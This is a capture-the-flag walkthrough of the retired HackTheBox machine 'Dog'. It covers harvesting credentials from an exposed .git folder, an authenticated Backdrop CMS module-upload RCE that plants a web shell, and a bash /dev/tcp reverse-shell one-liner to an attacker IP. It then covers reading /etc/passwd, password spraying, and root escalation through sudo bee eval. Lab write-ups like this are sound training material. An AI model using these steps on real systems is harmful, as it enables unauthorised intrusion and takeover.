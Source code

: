 ```yaml
---
title: Dog
categories: [HackTheBox]
tags: [cve, codereview]
media_subpath: /images/hackthebox_dog/
image:
  path: 'https://labs.hackthebox.com/storage/avatars/426830ea2ae4f05f7892ad89195f8276.png'
---
```


# Summary 
Dog is a retired easy HackTheBox machine that involves exploiting a vulnerable version of Backdrop CMS to gain initial access by reading an exposed `.git` folder, enumerating valid username and password for the administration page and exploiting a vulnerability from the running version of the CMS, followed by privilege escalation through a backdrop CMS cli utilitary, called `bee`.

# Walkthrough

## Nmap Scan
```bash
sudo nmap -Pn -sVC -oN nmap $IP -p-
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
```

From the `nmap` scan we have an indication that the target is running an Ubuntu server with SSH and HTTP services open.


## 80 - Web Server
### Enumeration

By first accessing the web server, we can see a simple page with a dog image and a link to a login page.

![NON](file-20250711125430776.png)

Looking at the bottom of the page, we can see that the web server is running with the `Backdrop CMS`, which is an open-source content management system (CMS) designed for small to medium-sized websites.

![NON](file-20250711135239693.png)

Since it is an open-source CMS, we can search for the files present in the web server. Looking at the source code of the page, we can see that there is a `robots.txt` file, `LICENSE` and `README.md` files.

![NON](file-20250711125904971.png)

![NON](file-20250711125913714.png)
There was not much information on those files, so I started with the `dirsearch` tool to enumerate the directories and files present in the web server.

```bash
dirsearch -u http://10.10.11.58
```

![NON](file-20250711130003853.png)

There was an exposed `.git` folder, which we can use to reconstruct the source code of the web server, look at previous commits, and find sensitive information.

To dump the contents of the `.git` folder, we can use the `git-dumper` tool.

```bash
git-dumper http://10.10.11.58 src
```

And now we have the source code of the web server in the `src` folder.
![NON](file-20250711130247742.png)

### Finding sensitive information
Looking at the `settings.php` file, we can see that the web server is using a MySQL database alongside with the `root` credentials of the database.

![NON](file-20250711130311632.png)

There was also a folder made of random characters, which would not be caught by the `dirsearch` tool.

![NON](file-20250711130445924.png)

There are 6133 files on that folder, and it is not possible to look at all of them manually. So we can use the `grep` command to search for interesting strings in those files.

#### Finding valid username
We start by searching for references to the `dog` word, which is the name of the target machine, which gave us a possible username.

![NON](file-20250711130618738.png)

Trying to login with that username and the password we found in the `settings.php` file, we can successfully login into the web server.

![NON](file-20250711130953412.png)


Looking at the `status report` page, we found the current version of the `CMS` running at the target, being `1.27.1`

![NON](file-20250711140355258.png)

Looking at public exploites for that specific version, we can find an [authenticated remote command execution vulnerability](https://www.exploit-db.com/exploits/52021), which allows us to execute arbitrary commands on the target machine.

### Exploiting the vulnerability
By running the exploit, it creates a `shell.zip` file, which we can use to install a custom module on the server and from there we can execute arbitrary commands.

![NON](file-20250711131725453.png)

![NON](file-20250711131704830.png)

By sending the `zip` file created by the exploit, we received an error message indicating that `zip` files are not allowed to be uploaded, it only allows `tar, tgz, gz and bz2` files.


```bash
tar -czvf shell.tar.gz shell/*
```


![NON](file-20250711140715542.png)

So instead of using the `zip` file, we created the `tar.gz` file with the same contents, which is the `shell.zip` file.

After that, we try accessing the `shell` module, which is located at `modules/shell/shell.php`, and we have a simple web shell that allows us to execute commands on the target machine.

![NON](file-20250711131847934.png)

## Foothold
We sen our reverse shell payload `bash -c 'bash -i >& /dev/tcp/10.10.14.17/9999 0>&1'`, and got access to the target machine.

![NON](file-20250711131944291.png)

### Lateral Privilege Escalation
Looking at the `/etc/passwd` file, we can see that the following users are present on the target machine:

```bash
cat /etc/passwd | grep "sh$"
```

```bash
root:x:0:0:root:/root:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```

Trying a password spray with the password we found in the `settings.php` file, we can successfully login into the `johncusack` user.

![NON](file-20250711133333620.png)

## Privilege Escalation
Looking at the `sudo` permissions of the `johncusack` with `sudo -l`, we can see that the user can run the `bee` binary as root without a password.
![NON](file-20250711133356334.png)

Bee is a command-line tool utility for the Backdrop CMS, we can see its [documentation here](https://github.com/backdrop-contrib/bee).

Looking at the help section of the `Bee` binary, we can see that it can run arbitrary php code, making it possible to escalate privileges to root.

![NON](file-20250711133501856.png)
Trying to execute the command with the `eval` flag, we receive an error message "The required bootstrap level for `eval` is not ready."


![NON](file-20250711133540530.png)

Looking at the help, we see it is trying to use the `--root` flag at our current working directory, which is not a valid Backdrop CMS root directory. So we can use the `--root` flag to specify the root directory of the Backdrop CMS, which is `/var/www/html`, or run the command from that directory, granting us `root` command execution.

![NON](file-20250711141853268.png)

![NON](file-20250711133846290.png)
